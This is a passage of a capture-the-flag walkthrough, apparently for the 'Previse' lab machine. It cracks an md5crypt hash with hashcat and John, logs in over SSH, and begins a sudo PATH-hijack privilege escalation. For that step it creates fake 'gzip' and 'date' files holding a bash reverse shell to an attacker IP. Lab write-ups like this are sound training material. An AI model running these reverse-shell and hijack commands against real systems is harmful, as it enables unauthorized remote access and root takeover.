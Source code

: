 - After crack tools running, the encryption for this hash is `md5crypt-long`

> hashcat -a 0 -m 500 [hash.txt](./site/hash.txt) /usr/share/wordlists/rockyou.txt -o [hash_result.txt](./site/hash_result.txt)

or

> john --format=md5crypt-long --wordlist=/usr/share/wordlists/rockyou.txt [hash.txt](./site/hash.txt)

> john --show [hash.txt](./site/hash.txt)

```
?:ilovecody112235!
```

```
username: m4lwhere
password: ilovecody112235!
```

## SSH Login

> ssh m4lwhere@10.10.11.104

```
user.txt
fc7db7e7c80782e5d594581266cbbb64
```

> sudo -l

```
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

> cat /opt/scripts/[access_backup.sh](./ssh/access_backup.sh)

### Create a fake executable file related to [access_backup.sh](./ssh/access_backup.sh)

- There are gzip and date used in this shell

- Only need one to change to pwn the root

- Move to m4lwhere home, open port to attacker side

### Victim open port

#### Gzip approach

> echo "bash -c 'bash -i &> /dev/tcp/10.10.14.46/*port* 0<&1'" > gzip

> chmod +x gzip

#### Date approach

> echo "bash -c 'bash -i &> /dev/tcp/10.10.14.46/*port* 0<&1'" > date
